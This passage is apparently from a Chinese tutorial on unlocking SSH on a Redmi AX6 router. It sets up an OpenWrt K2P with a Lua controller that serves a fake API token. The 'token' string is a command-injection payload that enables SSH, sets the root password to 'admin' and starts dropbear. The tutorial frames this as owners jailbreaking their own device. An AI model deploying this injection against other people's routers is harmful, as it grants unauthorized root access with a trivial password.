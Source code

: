 我这里准备的是一台刷了 openwrt 的 k2p，只需要接上电源有 Wi-Fi 信号即可（后续会让红米 AX 6 Wi-Fi 连接上此 openwrt 路由器）。 

### 创建 lua 文件

![截屏2021-05-03 下午4.04.00](https://oss.qust.me/img/%E6%88%AA%E5%B1%8F2021-05-03%20%E4%B8%8B%E5%8D%884.04.00.jpg)

ssh 连接上 openwrt 的路由器，然后使用 nano 创建 /usr/lib/lua/luci/controller/admin/xqsystem.lua 这样一个文件。

```
nano /usr/lib/lua/luci/controller/admin/xqsystem.lua
```

如果你的系统没有 nano 你可以使用 vi 或 vim 

```
vim /usr/lib/lua/luci/controller/admin/xqsystem.lua
```

文件内容填写下面的保存即可。

```
module("luci.controller.admin.xqsystem", package.seeall)


function index()
    local page   = node("api")
    page.target  = firstchild()
    page.title   = ("")
    page.order   = 100
    page.index = true
    page   = node("api","xqsystem")
    page.target  = firstchild()
    page.title   = ("")
    page.order   = 100
    page.index = true
    entry({"api", "xqsystem", "token"}, call("getToken"), (""), 103, 0x08)
end

local LuciHttp = require("luci.http")

function getToken()
    local result = {}
    result["code"] = 0
    result["token"] = "; nvram set ssh_en=1; nvram commit; echo -e 'admin\nadmin' | passwd root; sed -i 's/channel=.*/channel=\"debug\"/g' /etc/init.d/dropbear; /etc/init.d/dropbear start;"
    LuciHttp.write_json(result)
end
```

输入完成后你可以 cat /usr/lib/lua/luci/controller/admin/xqsystem.lua  检查一下。

![截屏2021-05-03 下午4.08.15](https://oss.qust.me/img/%E6%88%AA%E5%B1%8F2021-05-03%20%E4%B8%8B%E5%8D%884.08.15.jpg)

### 修改该 openwrt 路由器的 Lan 地址，并关闭 DHCP
